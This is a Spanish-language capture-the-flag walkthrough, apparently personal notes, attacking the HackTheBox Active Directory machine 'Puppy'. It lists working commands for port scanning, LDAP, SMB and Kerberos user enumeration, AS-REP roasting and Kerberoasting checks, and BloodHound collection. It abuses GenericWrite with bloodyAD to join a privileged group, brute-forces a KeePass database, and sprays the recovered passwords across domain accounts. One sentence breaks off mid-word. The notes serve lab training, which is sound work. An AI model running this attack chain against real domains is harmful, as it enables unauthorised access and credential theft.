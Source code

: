 levi.james:KingofAkron2025!
## Reconocimiento

Empezaremos realizando un reconocimiento con la herramienta de [[RUSTSCAN]] que es un [[NMAP]] con esteroides:
`rustscan -a $IP --ulimit 1000 -r 1-65535 -- -A -sCV -o portScan`

```ad-info
rustscan tambien usa herramintas de nmap para una mejor respuesta sobre el reconocimiento de puertos
```

Los puertos encontrados mas relevantes son:
```js
53 - DNS
88 - kerberos
111 - rpcbind
389 - LDAP
445 - SMB
5985 - WinRm
```

Usaremos [[CRACKMAPEXEC-NETEXEC]] para enumerar información básica del servicio **LDAP**.
`netexec ldap $IP 2>/dev/null` 

```js

LDAP $IP 389 DC [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)

```

Nos muestra: el protocolo `LDAP` la `IP` y el puerto `389`, a continuación nos muestra el rol del host `DC` que es **Domain Controller**, identificación del sistema operativo , nombre del host y dominio completo `FQDN`


Usaremos la herramienta de `https://github.com/Gzzcoo/iRealm` para añadir la maquina al `/etc/hosts` y el nombre de dominio y FQDN a `/etc/krb5.conf`
`iRealm --force $IP PUPPY.HTB DC`


Verificamos las credenciales que nos han aportado son validas con [[CRACKMAPEXEC-NETEXEC]]
`netexec ldap $IP -u 'levi.james' -p 'KingofAkron2025!'`

Nos mostrara que las credenciales son validas


Buscamos recursos compartidos en el servicio *SMB* con [[CRACKMAPEXEC-NETEXEC]]
`netexec smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares  -M spider_plus`

Usaremos la opción `--shares` para listar los recursos compartidos y el modulo `-M spider_plus` para hacer una búsqueda profunda de recursos compartidos nos genera un archivo `.JSON` en `/root/.nxc/modules/nxc_spider_plus/10.10.11.70.json`

### Enumeración Usuarios

Enumerar usuarios del dominio con [[CRACKMAPEXEC-NETEXEC]] 
`nxc ldap $IP -u 'levi.james' -p 'KingofAkron2025!' --users`

```ad-hint    
Administrator    
Guest            
krbtgt           
levi.james       
ant.edwards      
adam.silver      
jamie.williams   
steph.cooper     
steph.cooper_adm 
```

Enumeración de usuarios y verificar que exista en el dominio con la herramienta [[KERBRUTE]]
`kerbrute userenum --dc $IP -d puppy.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames`

 O también podemos usar [[CRACKMAPEXEC-NETEXEC]] para enumerar usuarios
 `netexec ldap $IP -u users.txt -p '' -k`

 ```ad-note
   El error KDC_ERR_PREAUTH_FAILED la contraseña no funciona pero existe el usuario
  El error KDC_ERR_CLIENT_REVOKED existe el usuario
 ```
 


```ad-info
### Verificacion de firerentes vectores de ataque
#### AS-REP ROASTING (Sin creds)
Busca obtener _hashes_ de contraseñas de usuarios que tengan deshabilitada la **preautenticación Kerberos**
`impacket-GetNPUsers -no-pass -usersfile users.txt puppy.htb/`
No es susceptible al ataque.

#### KERBEROASTING (Con creds validas)
Enumeración de usuario que tenga **serviceprincipalname** (SPN) 
`impacket-GetUserSPNs 'puppy.htb/levi.james:KingofAkron2025!' -dc-ip $IP`
No es susceptible al ataque.  
```


### Recopilacion de datos de AD

Recopilaremos unformacion del LDAP y lo guardaremos en un `.zip` que es le usaremos para subir al **BloodHound**, usaremos la herramienta [[CRACKMAPEXEC-NETEXEC]]
`netexec ldap $IP -u 'levi.james' -p 'KingofAkron2025!' --bloodhound --collection All --dns-server $IP`
Usaremos la opcion `--bloodhound` que activa el modulo de recoleccion de datos, usamos tambien `--collection All` especifica que se usen todos los metodos de recoleccion de datos. Y `--dns-server $IP` se usa para que la herramienta use el **DC** como DNS.

EL archivo que nos genera lo subiremos a **BloodHound**

```ad-note
Para ejecutar **BloodHound** hemos creado un script el cual para levantar el servicio solo tendremos que hacer `bloodHound up` y navegar a la web.
Una vez dentro de la web importaremos el `.zip`
```

Para buscar a que grupo pertenecemos, en el buscador de **bloodHound** el usuario que nos facilitaron al principio `levis.james`
Y en *Outbound Object Control* vemos que el u

Añadimos usuario a grupo DEVELOPERS por que tenemos generic write
`bloodyAD --host $IP -d puppy.htb -u 'levi.james' -p 'KingofAkron2025!' add groupMember 'DEVELOPERS' 'levi.james'`

Como nos hemos vovemos a acceder al smb y vemos que tenmos acceso a DEV
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares `

Nos encontramos que en el directorio hay un archivo con extensión de keepass `kdbx` 
`recovery.kdbx`

Nos descargamos el archivo 
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --share 'DEV' --get-file 'recovery.kdbx' 'recovery.kdbx'`

Lo añadimos a Keepassxc el archivo y nos pide una passwd
como no la tenemos la hacemos fuerza bruta

Usaremos `./keepas4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt`
La contraseña que nos devuelve es `liverpool`

Dentro del archivo encontramos contraseñas, que las añadimos a un archivo y lo guardamos
Y haremos fuerza bruta a los primeros usuarios encontrados
`nxc ldap $IP -u users.txt -p pass.txt --continu-on-success | grep '[+]'`
Nos encuentra el siguiente user
`[+] PUPPY.HTB\ant.edwards:Antman2025!`




